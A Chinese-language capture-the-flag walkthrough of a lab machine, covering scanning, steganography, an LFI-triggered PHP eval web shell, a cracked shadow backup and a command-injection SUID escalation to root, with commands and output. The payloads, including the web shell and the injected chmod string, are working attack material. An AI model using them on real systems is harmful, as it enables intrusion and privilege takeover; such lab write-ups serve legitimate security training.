 # 一、信息收集

## 1. 主机发现

首先，使用 `arp-scan` 在 `192.168.205.0/24` 网段中发现目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.142 08:00:27:24:64:43       PCS Systemtechnik GmbH
...
```

确认目标主机IP地址为 `192.168.205.142`。

## 2. 端口扫描

使用 `nmap` 对目标主机进行全端口扫描，识别开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.142
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

扫描结果显示开放了 **22 (SSH)** 和 **80 (HTTP)** 两个端口。我们将Web服务作为主要的攻击入口。

## 3. Web目录与文件发现

访问 `http://192.168.205.142` 是一个“星际商城”的商品反馈页面。使用 `dirsearch` 进行目录爆破，发现多个关键文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ dirsearch -u http://192.168.205.142
...
[09:26:07] 200 -    1KB - /admin.php
[09:26:16] 200 -   23KB - /info.php
[09:26:22] 200 -  109B  - /robots.txt
[09:26:25] 301 -  320B  - /uploads  ->  http://192.168.205.142/uploads/
...
```

主要发现：

*   `/admin.php`: 后台登录页面。
*   `/info.php`: 一个 `phpinfo()` 页面，泄露了详细的PHP配置。
*   `/uploads/`: 一个开放目录浏览的上传目录。
*   `/robots.txt`: 存在有趣的信息。

## 4. 信息泄露

查看 `robots.txt` 文件内容，发现一条重要线索。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.142/robots.txt
本站的 logo 灵感来自 https://maze-sec.com/special/1/，但我们给它添了点特别的‘味道’！
```

该线索暗示网站的logo图片 `QQ.png` 可能被修改过，含有隐藏信息。

# 二、Web渗透与立足点

## 1. 后台登录

访问 `/admin.php` 是一个管理员登录页面，只需要输入密码。根据主页页脚的客服热线 `400-123-4567`，尝试以此作为密码进行登录，成功进入后台。

## 2. 图像隐写 (盲水印)

根据 `robots.txt` 的提示，我们怀疑logo图片存在隐写。

1. 分别下载目标网站的logo和原始logo。

   ```bash
   wget http://192.168.205.142/QQ.png -O target_logo.png
   wget https://maze-sec.com/img/QQ.png -O original_logo.png
   ```

2. 常规的隐写分析工具均未发现异常。考虑到“味道”这种描述，推测可能是盲水印（Blind Watermark）。

3. 使用盲水印工具进行解密，成功提取出隐藏的水印信息。

   ```bash
   # 克隆工具
   git clone https://github.com/chishaxie/BlindWaterMark.git
   cd BlindWaterMark
   
   # 解码
   python bwmforpy3.py decode target_logo.png original_logo.png wm_extracted.png
   ```

4. 查看提取出的水印图片 `wm_extracted.png`，得到隐藏的目录路径：`/hoshi/`。

![提取出的水印](http://7r1UMPHK.github.io/image/20250810220719846.webp)

## 3. 文件包含与Getshell

1. 访问新发现的路径 `http://192.168.205.142/hoshi/`，发现一个文件 `gift.php`。直接访问该文件返回错误“非法文件名”，这是典型的文件包含（LFI）漏洞特征。

2. 通过Fuzz工具 `ffuf` 爆破参数，确定用于文件包含的参数为 `file`。

3. 在 `admin.php` 页面源码中，发现一行隐藏的注释：`<div style="display:none" id="static-tip">[debug] 静态页面已生成</div>`。

4. **攻击链梳理**：

   *   在主页 `/index.php` 的反馈表单中提交PHP Web Shell。
   *   登录后台 `/admin.php`。这个登录行为会触发服务器将在后台生成一个包含所有反馈内容的静态文件 `admin.html`。（通过目录爆破发现）
   *   利用 `gift.php` 的文件包含漏洞去读取这个新生成的 `admin.html`。由于该文件是被PHP引擎包含的，其中的PHP代码将会被执行。

5. **操作步骤**:

   * **步骤一：注入Payload**。在主页的反馈表单中的"您的昵称"输入栏提交以下内容。

     ```php
     <?php eval($_POST['ant']); ?>
     ```

   * **步骤二：触发生成**。访问 `/admin.php` 并使用密码 `400-123-4567` 登录。此时，包含我们Payload的 `admin.html` 文件已经在Web根目录生成。

   * **步骤三：构造LFI URL**。`http://192.168.205.142/hoshi/gift.php?file=admin.html`

   * **步骤四：连接Shell**。使用蚁剑（AntSword）连接上述URL，密码为 `ant`，成功获得 `www-data` 用户的Web Shell。

# 三、权限提升

## 1. 横向移动 (www-data -> welcome)

1. 在 `www-data` shell中，使用 `linpeas.sh` 等脚本进行信息收集。在 `/var/backups/` 目录下发现一个可读的敏感文件 `shadow~`。

2. 读取该文件，获得 `root` 和 `welcome` 用户的密码哈希。

3. 使用 `John the Ripper` 和 `rockyou.txt` 字典对哈希进行破解，得到 `welcome` 用户的密码为 `loveme2`。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ john --wordlist=rockyou.txt hash.txt
   ...
   loveme2          (welcome)     
   ...
   ```

4. 使用 `su` 命令和破解出的密码成功切换到 `welcome` 用户。

## 2. 提权至root (welcome -> root)

1. 在 `welcome` 用户下，使用 `sudo -l` 检查其sudo权限，发现可以无密码以root权限执行一个Python脚本 `/root/12345.py`。

   ```bash
   welcome@hoshi:/tmp$ sudo -l
   ...
   User welcome may run the following commands on hoshi:
       (ALL) NOPASSWD: /usr/bin/python3 /root/12345.py
   ```

2. 执行该脚本，它会在 `12345` 端口上开启一个自定义的配置shell。

3. 在Kali攻击机上，使用 `ncat` 连接该服务。通过 `help` 命令发现 `exec_cmd` 指令。测试发现 `|;&<>` 等字符被过滤，但 `&&` 可用于命令拼接。

4. 利用命令注入，为 `/bin/bash` 添加SUID权限。

   ```bash
   conf> exec_cmd id'&&chmod +s /bin/bash&&'
   uid=0(root) gid=0(root) groups=0(root)
   ```

5. 回到靶机shell，执行 `bash -p`，成功获得root权限的shell。

   ```bash
   welcome@hoshi:/opt$ bash -p
   bash-5.0# id
   uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)
   ```

# 四、获取Flag

现在拥有了root权限，可以读取所有的Flag。

```bash
bash-5.0# cat /root/root.txt
flag{root-5de923e57adefd6a1fd53a6705ad6486}

bash-5.0# cat /home/welcome/user.txt
flag{user-73b671a5f913d849d405784a428288dd}
```

所有Flag均已找到，渗透测试完成。
